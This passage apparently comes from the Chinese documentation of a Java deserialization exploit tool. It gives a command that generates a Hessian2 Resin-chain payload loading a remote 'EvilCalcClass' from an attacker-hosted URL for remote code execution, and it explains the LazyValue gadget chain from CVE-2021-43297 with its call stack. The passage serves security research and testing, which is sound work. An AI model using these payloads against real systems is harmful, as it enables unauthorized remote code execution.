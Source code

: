 ### Resin URLClassLoader远程类加载

描述：利用Resin利用链进行远程类远程RCE

工具：URLClassLoader远程类加载，前面是远程类加载的类名，后面是地址(http后面不能少反斜杠`/`​

```bash
-m HessianAttack -g Resin -a "EvilCalcClass:http://127.0.0.1:8099/" -hessianType="Hessian2"
```

### Hessian LazyValue利用链

#### LazyValue利用链利用说明

Hessian LazyValue的利用链学习自[Apache Dubbo Hessian2 异常处理时反序列化(CVE-2021-43297)](https://paper.seebug.org/1814/)，通过Hessian在反序列化处理时遇到畸形的流会触发某个类toString方法。通常来说toString方法又可以触发一些类的getter方法从而导致恶意利用。

但是因为Hessian的反序列化特性中可以用HashMap来触发某个类的getter方法所以自然省略了中间构造toString利用类的步骤，通过getter方法来漏洞利用。最好用的就是`UIDefaults#get(Object key)`​，所以本部分就是LazyValue链相关的利用手法。

漏洞调用栈基本如下：UIDefaults#get 可触发 SwingLazyValue和ProxyLazy的createValue方法

```java
HashMap#readObject
 -HashTable#equals (HashTable是UIDefaults的父类)
	-UIDefaults#get(Object key)
	  -UIDefaults$ProxyLazyValue#createValue(UIDefaults var1)
	  -SwingLazyValue#createValue(UIDefaults var1)
```

#### createValue利用链(SwingLazyValue & ProxyLazyValue)

##### SwingLazyValue#createValue

为什么要用SwingLazyValue#createValue，因为该方法封装反射的API。但是该createValue方法调用反射有如下的限制：

`SwingLazyValue#createValue(UIDefaults var1)`![image-20250105135537958](images/image-20250105135537958.png)
